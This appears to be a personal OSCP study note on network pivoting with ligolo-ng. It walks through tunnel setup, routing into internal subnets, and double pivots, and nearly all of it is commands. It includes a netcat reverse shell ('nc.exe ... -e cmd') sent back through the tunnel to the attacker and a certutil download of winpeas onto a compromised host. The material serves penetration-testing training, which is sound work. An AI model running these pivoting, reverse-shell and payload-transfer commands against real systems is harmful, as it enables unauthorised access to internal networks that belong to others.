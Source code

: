 # Pivoting for OSCP

{% embed url="https://www.youtube.com/watch?v=DM1B8S80EvQ&t" %}

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

If we're on a Active directory machine and attacking from a kali, we have to download windows agent end linux proxy from releases:

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

On kali:

```
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On target machine:

```
./agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

back on ligolo listener:

```
session
1
start 
```

and on another terminal on kali we add the subnet we want to access:

```
sudo ip route add 10.10.14.0/24 dev ligolo
```

### Reverse shells from internal network

Add listener on ligolo proxy ->

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

any connection that comes in to MS01 from port 1234 will be forwarded to our localhost on port 4444

we can check listener with

```
listener_list
```

So now we set up our listener on our kali:

```
rlwrap nc -nlvp 4444
```

Let's say MS01 has internal IP of 10.10.120.131, on our target machine we will change the IP of the listener to ip of MS01:

```
nc.exe 10.10.120.131 1234 -e cmd
```

And from that we should catch our shell up and running

### File transfer from internal network

We go back in the ligolo proxy ->

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

We choose port 80 because we'll run our python webserver on port 80

let's say we host winpeas ->

```
python -m http.server 80
```

on the target machine:

```
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

and the file will be transfered

### Double Pivot

{% embed url="https://www.youtube.com/watch?v=LiaBVuz2B4o" %}

Let's say we have a successfull pivot, we manage to get a shell on a machine and discover a new subnet we want to scan:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

on our kali:

```
sudo ip tuntab add user felix mode tun ligolo1; sudo ip link set ligolo1 up
```

On the ligolo session:

```
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
#check if up:
listener_list
```

Then we transfer our agent on the ubuntu machine we control and type:

```
./agent --connect 172.16.0.2:9001 -ignore-cert
```

On ligolo session:

```
session
2
#check:
ifconfig
```

On our kali:

```
sudo ip route add 10.10.10.0/24 dev ligolo1
```

and ligolo session:

```
start --tun ligolo1
```
